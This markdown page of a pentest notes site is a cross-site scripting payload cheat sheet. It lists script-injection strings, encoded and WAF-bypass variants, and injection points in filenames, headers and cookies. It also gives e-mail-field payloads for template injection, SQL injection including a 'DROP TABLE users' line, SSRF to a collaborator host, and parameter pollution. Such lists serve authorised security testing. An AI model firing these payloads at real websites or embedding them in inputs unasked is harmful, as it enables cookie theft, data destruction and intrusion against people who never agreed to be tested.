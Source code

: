 ```yaml
---
title : "XSS"
pre : '<i class="fab fa-js"></i> '
description : "Cross-Site-Scripting payloads."
date : 2021-12-07T17:10:24+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Cross-Site Scripting (XSS)

## Generic

```plain
<Svg/Onload=1
c5obc'+alert(1)+'p7yd5
<svg onload=alert(1)>
<script>alert(1)</script>
<</p>iframe src=javascript:alert()//
<script>alert('PoC')</script>
"><script>alert('XSS')</script>
"><script>alert(document.domain)</script>
"><img src=x onerror="alert(document.domain)">
<scr ipt>ale rt (1) </scr ipt>
%3cscript>alert('PoC')</script>
%25%33%63script>alert('PoC')</script>
&#x3c;script>alert('PoC')</script>
</script><script>alert(1)</script>
["</script><script>alert(1)</script>"]
<a href="x">test</a>
<img src=x />
<img src=x onerror="alert(1);" />
&#x3c;script>alert(1)&#x3c;/script>
<img src=x onerror="alert(document.cookie);" />
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><
<a href="javascript:alert('PoC')">Click me</a>
<p><script>alert(1)</script></p>
<i nput type="text" id="search-text" name="query" value="" onfocus="alert(1)" autofocus="" />
draggable=true ondragstart="alert(1)
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>
<</div>script</div>>alert()<</div>/script</div>>
"><a href=j<TAB><NEWLINE><TAB><NEWLINE><TAB><NEWLINE>avascript:confirm("payload")>XSSs</a>
```

### WAF bypass

```plain
%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a
```

### XSS in filename

```plain
<img src=x onerror=alert('XSS')>.png
"><img src=x onerror=alert('XSS')>.png
"><svg onmouseover=alert(1)>.svg
<<script>alert('xss')<!--a-->a.png
```

### Host header

```plain
"> <script>alert(1)</script>
```

### Chrome and FireFox

Standard

```plain
<script>alert(1)</script>
<a href="javascript:alert(1)">XSS</a>
<a href="JaVaScript:alert(1)">XSS</a>
<iframe src="javascript:alert(1)">
<script src="data:text/javascript,alert(1)"></script>
<svg><use href="data:image/svg+xml,<svg id='x' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' width='100' height='100'><a xlink:href='javascript:alert(1)'><rect x='0' y='0' width='100' height='100' /></a></svg>#x"></use></svg>
```

onclick

```plain
<a onclick="alert(1)">test</a>
<body onclick="alert(1)">test</body>
<textarea onclick="alert(1)">test</textarea>
<p onclick="alert(1)">test</p>
<svg onclick="alert(1)">test</svg>
<iframe onclick="alert(1)">test</iframe>
```

onmouseover

```plain
<a onmouseover="alert(1)">test</a>
<body onmouseover="alert(1)">test</body>
<p onmouseover="alert(1)">test</p>
<svg onmouseover="alert(1)">test</svg>
```

onload

```plain
<body onload=alert(1)>
<svg onload=alert(1)>
<iframe onload=alert(1)></iframe>
```

onerror

```plain
<image src/onerror=alert(1)>
<img src/onerror=alert(1)>
<script onerror=alert(1) src=/></script>
<body onerror=alert(1) onload=/>
```

### DOM-based

```plain
javascript:alert(¨DOM")
"><script>alert(document.cookie)</script>
alert(1)
alert(document.cookie)
#<script>alert('xss')</script>
```

### User-agent

```plain
</SCript><svG/onLoad=alert(document.domain)>
```

### XSS in cookie header

```plain
Cookie: PHPSESSID=hd<script>alert(document.cookie)</script>np5
```

## E-mail recipient payloads

### XSS

```plain
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

### Template injection

```plain
"<= 7 * 7 %>"@example.com
test+(${{7*7}} )@example.com
```

### SQL Injection

```plain
"' OR 1=1 -- '"@example.com
"mail'); DROP TABLE users;--"@example.com
```

### SSRF

```plain
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
```

### Parameter pollution

```plain
victim&email=attacker@example.com
```

### URL list

* [Portswigger.net Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
